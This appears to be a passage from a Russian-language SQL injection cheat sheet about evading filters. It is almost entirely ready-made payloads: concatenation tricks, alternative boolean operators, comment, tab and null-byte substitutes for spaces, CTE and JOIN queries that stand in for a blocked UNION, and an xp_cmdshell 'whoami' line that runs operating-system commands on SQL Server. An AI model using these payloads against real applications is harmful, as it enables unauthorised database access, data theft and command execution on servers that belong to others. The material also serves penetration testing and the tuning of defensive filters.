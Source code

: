```sql
' OR '1'||'='||'1'--
' SEL'||'ECT * FROM users--'
' SEL'||'ECT version()--'
-- SQL Server -- Конкатенация через +
' OR '1'+'='+'1'--
' EXEC' + ' xp_cmdshell' + ' ''whoami''--'
```

#### **3) Альтернативные синтаксисы**

```sql
' OR 1=1--'  -- заблокировано

-- Альтернативы:
' || 1=1--'  -- PostgreSQL, MySQL
' | 1=1--'   -- некоторые СУБД
' XOR 0=1--' -- инвертированная логика
' AND NOT 1=0--' -- двойное отрицание

-- /**/ вместо пробелов
'/**/OR/**/1=1--
'%09OR%091=1--
```

**Вместо UNION:**
```sql
-- Использование подзапросов
' AND (SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c)--'

-- Использование WITH (CTE)
'; WITH cte AS (SELECT * FROM users) SELECT * FROM cte--'
```

**Вместо пробелов:**
```sql
'OR'1'='1'  -- без пробелов (работает в некоторых СУБД)

-- Альтернативы пробелам:
'/**/OR/**/1=1--'
'%09OR%091=1--'    -- табуляция
'%0AOR%0A1=1--'    -- новая строка
'%0DOR%0D1=1--'    -- возврат каретки
'%00OR%001=1--'    -- null byte
```

##### **4) JOIN запросы для обхода блокировки UNION**

```sql
-- Вместо: UNION SELECT username, password FROM users
' AND 1=2 UNION SELECT 1,2--  -- заблокирован

-- Используем JOIN:
' AND EXISTS (SELECT * FROM information_schema.tables t1 
              JOIN information_schema.columns t2 
              ON t1.table_name=t2.table_name)--
```
